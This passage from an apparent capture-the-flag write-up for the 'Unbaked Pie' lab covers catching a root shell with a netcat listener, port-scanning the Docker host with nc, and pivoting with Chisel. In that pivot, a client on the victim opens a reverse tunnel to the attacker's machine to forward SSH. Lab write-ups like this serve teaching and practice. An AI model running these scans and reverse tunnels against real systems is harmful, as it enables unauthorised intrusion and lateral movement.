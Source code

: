 Setup NC listener on port 1234.

And we got a root shell instantly.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

But looking at the root folder it looks like we landed on a docker environment.

Here we can clearly see that the user was trying to login into 172.17.0.1 using SSH as user ramsey. And as this is a docker container, that IP is the IP address of the host. But the SSH was not open on all interfaces otherwise we would have seen on the output of the nmap.

#### Port Scan using nc[Permalink](https://shishirsubedi.com.np/thm/unbaked\_pie/#port-scan-using-nc) <a href="#port-scan-using-nc" id="port-scan-using-nc"></a>

As there was no nmap on the docker container, I used netcat for scanning for open ports.

```bash
root@8b39a559b296:~# nc -zv 172.17.0.1 1-65535
ip-172-17-0-1.eu-west-1.compute.internal [172.17.0.1] 5003 (?) open
ip-172-17-0-1.eu-west-1.compute.internal [172.17.0.1] 22 (ssh) open
```

And it turned out SSH is open on the 172.17.0.1 interface. Even though SSH was open and we know a user on the box, we still do not know the password for the user. So, I began to enumerate the docker container if there are any sensitive files leaking the credentials.

So the dev rmoved SSH from the server, we have to do Port Forwarding to our kali.

#### Port Forwarding with Chisel

Setup server on kali:

```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ ./chisel_1.9.1_linux_amd64 server --port 4444 --reverse
```

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Setup client on victim

{% code overflow="wrap" lineNumbers="true" %}
```bash
root@8b39a559b296:/tmp# ./chisel_1.9.1_linux_amd64 client 10.18.88.214:4444 R:22:172.17.0.1:22
```
{% endcode %}
